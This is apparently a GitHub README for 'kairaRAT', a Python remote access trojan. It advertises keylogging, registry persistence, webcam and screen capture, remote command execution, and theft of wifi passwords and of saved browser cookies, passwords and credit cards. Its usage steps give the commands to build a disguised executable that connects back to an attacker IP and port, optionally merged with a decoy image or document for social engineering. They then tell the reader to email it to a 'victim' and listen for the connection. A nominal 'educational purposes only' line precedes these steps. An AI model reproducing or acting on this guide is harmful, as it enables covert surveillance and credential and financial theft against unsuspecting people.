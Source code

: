 # kairaRAT
kairaRAT is a remote access trojan tool built with python.

Needs python 3.8 or higher

  [!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/st4inl3s5)

![zibib7](https://github.com/st4inl3s5/kairaRAT/assets/68844502/2382d2d6-99ab-4bd9-a694-f9a8adabcaea)

## Features

+ File/directory managing (delete, rename, create, change etc.)

+ Download files from victim's computer.

+ Executing command on windows command prompt.

+ Taking screenshots from victim's computer.

+ Taking victim's camera snapshots.

+ Keylogger.

+ Persistence(hides trojan to registry and copies itself.)

+ Taking wifi names and passwords.

+ Connection without disconnection.

+ Can be merged with an arbitrary file.

+ Automatic build mode.

+ Taking browser saved cookies, passwords and credit cards.

## EDUCATIONAL PURPOSES ONLY.

#### I am not responsible in bad uses of kairaRAT.kairaRAT is made for security researchers.Don't use it for illegal purposes.

## SETUP

You need 2 OS.1)Unix(You can use kali linux) OS 2)Windows OS.Unix for listening connections and managing connections.Windows for building .exe executable file.To make setup, execute the following command on both of them :

     pip install -r requirements.txt

## USAGE

  1. If you want to put icon for the trojan, go to internet and find a image file.Then convert this image file to icon file(with .ico extension) and save this icon to your windows.And if you want to merge a file with trojan too, go to internet and find a merge file(this can be .docx, .png, .jpg etc.) and save to your windows.(This step is optional for social engineering.)
 
  2. In windows, open a command prompt terminal and change the directory to the kairaRAT project directory.Build the executable file with following command :
 
    python main.py build -ip <your_server_ip_address> -p <your_server_port> -i <icon_file(optional)> -m <file_to_merge(optional)> -n <file_name_after_build_finish(optional)>
 
  + Example

        python main.py build -ip 172.28.89.113 -p 4444 -i filetoicon.ico -m hashtypes.png -n kaira.exe
 
  + Example
  
        python main.py build -ip 172.28.89.113 -p 4444 -n kaira.exe
 
![zibab2](https://github.com/st4inl3s5/kairaRAT/assets/68844502/e1a1f0c5-90e7-4db2-8bbc-02c3ada16920)

  3. Wait for building process.When the building finished, you see a message :
 
![zibib3](https://github.com/st4inl3s5/kairaRAT/assets/68844502/1dcc35df-0e02-46ee-82e7-45b03f51a5b5)

  4. Check the builds directory.You must see the executable file.

![zibib4](https://github.com/st4inl3s5/kairaRAT/assets/68844502/8e00b10f-f171-4790-a819-0c9f5f33e70b)

  5. After that, send this executable file to your victim via email etc.And wait for victim's execute the file.When executed, the merge file will be opened(if you configured to) and trojan executing in background.Copies itself, keylogging and makes persistence.
 
![zibib5](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f90e71f9-c883-4600-ae8d-bdb3f8ae0ab6)

  6. Then listen the connections on your linux with the following command :
 
    python3 main.py server -ip <your_server_ip_address> -p <your_server_port>
 
  +  Example

    python3 main.py server -ip 172.28.89.113 -p 4444 
 
  7. When the connection established, a screen like this appear :

![zibib1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/3b84fe44-21e2-43de-ab7a-c3c50d5fb35c)

  8. Type 'help' for command list.The usage all of them is written.
 
  9. You can take camera snapshots, screenshots, victim's keylogs.
 
![zibib6](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f6695aa3-cb72-4b80-83d1-9ff27ec8c681)

__You can contact me on instagram : https://www.instagram.com/arduinocum.py or in telegram : https://t.me/+5XoMhXv4SghhYmE0__
